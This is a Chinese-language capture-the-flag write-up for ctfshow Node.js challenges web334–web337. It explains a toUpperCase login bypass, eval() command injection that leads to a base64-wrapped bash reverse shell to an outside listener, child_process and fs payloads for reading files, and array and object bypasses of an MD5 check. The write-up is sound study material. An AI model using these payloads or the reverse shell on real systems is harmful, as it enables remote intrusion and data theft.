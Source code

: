 ### 【ctfshow】nodejs

#### web334            

login.js

```js
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;
 
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};

/* GET home page. */
router.post('/', function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var sess = req.session;
  var user = findUser(req.body.username, req.body.password);
 
  if(user){
    req.session.regenerate(function(err) {
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }
       
      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  
  
});

module.exports = router;
```

user.js

```js
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

很显然，我们只需要绕过这里： `toUpperCase()是javascript中将小写转换成大写的函数。`

```js
return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
```

我们可以使用小写绕过：`ctfshow`



这里还有一个小trick，

```js
在Character.toUpperCase()函数中，字符ı会转变为I，字符ſ会变为S。
在Character.toLowerCase()函数中，字符İ会转变为i，字符K会转变为k。
```

所以我们也可以写成这样：`ctfſhow`





#### web335

源码提示：

```
<!-- /?eval= -->
```

因此我们可以使用`nodejs`中的`eval()`进行命令执行

> Node.js中的`child_process.exec`调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。在eval函数的参数中可以构造`require('child_process').exec('');`来进行调用。

![image-20230411173113969](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111731049.png)

这里我们选择反弹shell，

```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

这一句的意思就是反弹shell，将输出与输入都重定型到指定ip的指定端口上面，

但是我们不能直接这样，我们需要先base64编码之后(注意加号要进行url编码为%2B)，然后使用echo输出，使用管道符|将输出作为`base64 -d`输入进行base64解密，最后再传给bash



这里我选择自己的服务器，首先监听9996端口，然后再execute

![image-20230411173813970](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111738001.png)

成功监听到了：

![image-20230411174043978](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111740011.png)

直接读flag





#### web336

我们了解到如下知识点：

> `__filename`：当前模块的文件名。 这是当前模块文件的已解析符号链接的绝对路径。
>
> `__dirname`：可以获得当前文件所在目录从盘符开始的全路径

![image-20230411181055933](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111810969.png)

有一种方法是使用`fs`模块去读取当前目录的文件名，然后通过方法去读取文件内容：

```js
require('fs').readdirSync('.')
```

![image-20230411182806500](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111828536.png)

```js
require('fs').readFileSync('fl001g.txt')
```

![image-20230411182941723](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111829758.png)



常规方法：这里过滤了`exec`，我们可以使用`spawn`

`nodejs`的`child_process`中可以使用 `exec`、`execSync`、`spawn`、`spawnSync`进行命令执行

当我们使用：

```js
require('child_process').spawnSync('ls')
```

![image-20230411183551070](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111835105.png)

发现，显示出 `object`，查询资料

![image-20230411183721508](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111837564.png)

返回的object里有个`stdout`属性，我们调用它，就可以当成字符串输出了：

![image-20230411183854636](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111838673.png)

然后我们去读文件：

```js
// require('child_process').spawnSync('cat fl001g.txt').stdout
```

如果这样读的话语法是错的，我们需要这样：

```js
require('child_process').spawnSync('cat',['fl001g.txt']).stdout
```

![image-20230411184039325](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111840361.png)



还有一种思路，通过定义变量，然后多个变量拼接：

![在这里插入图片描述](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111917247.png)





#### web337

```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

关键点在这里：

```js
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
```

这里可以使用数组绕过



```js
a = ['1']
b = 1
console.log(a + 'flag')
console.log(b + 'flag')
```

输出：

```
1flag
1flag
```

可以看到，`nodejs`中：如果**数组与字符串拼接**后输出、**数字与字符串拼接**后输出，结果是一样的

于是我们就有一种思路，可以a传入数组，然后b传入等值的数字：

```
a[]=1&b=1
```

![image-20230411191205702](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111912743.png)



还有一种方法，

`nodejs`中数组只能是数字索引，如果为非数字索引的话，相当于对象了。

```js
a = {'x': 1}
b = {'x': 2}
console.log(a + 'flag')
console.log(b + 'flag')

输出：
[object Object]flag
[object Object]flag
```

因此我们直接绕过：

```
a[x]=1&b[x]=2
```



